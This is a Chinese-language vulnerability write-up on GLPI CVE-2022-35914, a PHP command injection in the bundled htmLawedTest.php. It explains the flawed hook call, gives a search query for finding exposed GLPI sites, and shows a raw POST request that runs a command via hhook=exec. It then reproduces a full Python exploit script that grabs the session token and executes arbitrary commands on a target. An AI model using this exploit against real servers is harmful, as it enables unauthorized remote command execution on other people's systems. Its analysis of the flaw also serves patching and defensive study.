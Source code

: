 # GLPI htmLawedTest.php 远程命令执行漏洞 CVE-2022-35914

## 漏洞描述

GLPI是个人开发者的一款开源IT和资产管理软件。该软件提供功能全面的IT资源管理接口，你可以用它来建立数据库全面管理IT的电脑，显示器，服务器，打印机，网络设备，电话，甚至硒鼓和墨盒等。GLPI 10.0.2及之前版本存在安全漏洞，该漏洞源于htmlawed 模块中的 `/vendor/htmlawed/htmlawed/htmLawedTest.php` 允许 PHP 代码注入。

## 漏洞影响

```
GLPI 10.0.2及之前版本
```

## 网络测绘

```
title="GLPI"
```

## 漏洞复现

登录页面

![image-20221017171204621](./images/202210171712679.png)

出现问题的文件为 **htmLawedTest.php，** 来源于第三方库 PHP Labware

![image-20221017171224096](./images/202210171712160.png)

```
https://www.bioinformatics.org/phplabware/internal_utilities/htmLawed/
```

在 htmLawedTest.php 中接收参数并传入方法 htmLawed 中

![image-20221017171243880](./images/202210171712972.png)

跟进文件 htmLawed.php 中

![image-20221017171259491](./images/202210171712583.png)

```
if($C['hook']){$t = $C['hook']($t, $C, $S);}
```

这里可以看到参数均为用户可控参数，当控制参数 hhook 为 exec 和 text 为执行的命令时就导致了命令执行漏洞

![image-20221017171318915](./images/202210171713976.png)

验证POC

```
/vendor/htmlawed/htmlawed/htmLawedTest.php
```

![image-20221017171343438](./images/202210171713502.png)

![image-20221017171358385](./images/202210171713454.png)

访问页面获取到 sid 与 token 后再发送请求包

```
POST /vendor/htmlawed/htmlawed/htmLawedTest.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 88
Content-Type: application/x-www-form-urlencoded

token=a79cf121bde57fe0e3cc0f247f77961a&text=id&hhook=exec&sid=h1c0vk004dvulal5nj8i6en44e
```

![image-20221017171416286](./images/202210171714358.png)

## 漏洞POC

- https://github.com/cosad3s/CVE-2022-35914-poc

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

import argparse
from bs4 import BeautifulSoup
import requests
import sys
import re

requests.packages.urllib3.disable_warnings() 

RED = '\x1b[91m'
BLUE = '\033[94m'
GREEN = '\033[32m'
ENDC = '\033[0m'

banner="""  
  ______     _______     ____   ___ ____  ____      _________  ___  _ _  _   
 / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ / ___|/ _ \/ | || |  
| |    \ \ / /|  _| _____ __) | | | |__) | __) |____ |_ \___ \ (_) | | || |_ 
| |___  \ V / | |__|_____/ __/| |_| / __/ / __/_____|__) |__) \__, | |__   _|
 \____|  \_/  |_____|   |_____|\___/_____|_____|   |____/____/  /_/|_|  |_|  
"""

def main():
    print(banner)
    parser = argparse.ArgumentParser(description='CVE-2022-35914 - GLPI - Command injection using a third-party library script')
    parser.add_argument('-u', type=str, required=True, dest='url', help = "URL to test")
    parser.add_argument('-c', type=str, required=False, dest='cmd', default = "id", help = "Command to launch (default: id)")
    parser.add_argument('-f', type=str, required=False, dest='hook', default = "exec", help = "PHP hook function (default: exec)")
    parser.add_argument('--check', action="store_true", dest='check', help = "Just check, no command execution.")
    parser.add_argument('--user-agent', type=str, required=False, default="Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36", dest='user_agent', help = "Custom User-Agent")
    args = parser.parse_args()
    exploit(args.url, args.cmd, args.user_agent,args.check,args.hook)

def exploit(url,cmd,user_agent,check,hook):
    uri = "/vendor/htmlawed/htmlawed/htmLawedTest.php"
    headers = {'User-Agent': user_agent}

    session = requests.Session()
    response_part1 = session.get(str(url)+uri, verify=False, headers=headers)
    if (response_part1.status_code != 200):
        fail()
    
    soup = BeautifulSoup(response_part1.text, 'html.parser')
    if (soup.title.text.find("htmLawed") == -1):
        fail()

    if (check):
        print(GREEN + "[+] Server potentially vulnerable to CVE-2022-35914" + ENDC)
        sys.exit()

    # Prepare POST request
    token_value = soup.find_all(id='token')[0]['value']
    sid_value = session.cookies.get("sid")
    body = {"token":token_value,"text":cmd,"hhook":hook,"sid":sid_value}
    response_part2 = session.post(str(url)+uri, verify=False, headers=headers, data=body)
    parse(response_part2.text)

def parse(response):
    soup = BeautifulSoup(response, 'html.parser')
    raw = soup.find_all(id='settingF')[0]

    return_code_search_regex = "\$spec\: (.*)"
    found_return_code = re.search(return_code_search_regex, raw.text, re.DOTALL).group(1)

    output_search_regex = "\[xml:lang\] \=\> 0\n(.*)\n\)"
    found_output = re.search(output_search_regex, raw.text, re.DOTALL)
    print(GREEN + "[+] Command output (Return code: " + found_return_code + "):" + ENDC)
    if (found_output != None):
        raw_output = found_output.group(1)
        cleaning_regex = ".*\=\>"
        cleaned_output = re.sub (cleaning_regex, "", raw_output)
        print(cleaned_output)

def fail():
    print(RED + "[-] Server not vulnerable to CVE-2022-35914" + ENDC)
    sys.exit()

if __name__ == '__main__':
    main()
```

